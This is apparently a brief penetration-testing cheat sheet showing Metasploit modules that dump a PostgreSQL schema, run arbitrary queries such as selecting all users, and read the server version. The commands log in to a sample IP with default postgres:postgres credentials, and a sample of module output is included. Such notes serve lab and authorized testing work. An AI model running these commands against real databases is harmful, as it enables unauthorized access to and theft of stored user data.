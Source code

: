 --- ---
<h2>Commands</h2>
Take notes that your sessions should also be in background for those steps to work

Extract Data
```
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
---> SET OPTION (DATABASE, SQL, ... TO FIT THE NEEDS)
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```

- Simply change the SQL= query to the desired search


Version
```
msf6 > use admin/postgres/postgres_sql
msf6 auxiliary(admin/postgres/postgres_sql) > run postgres://user:password@MACHINE_IP/database_name sql='select version()'

[*] Running module against IP

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed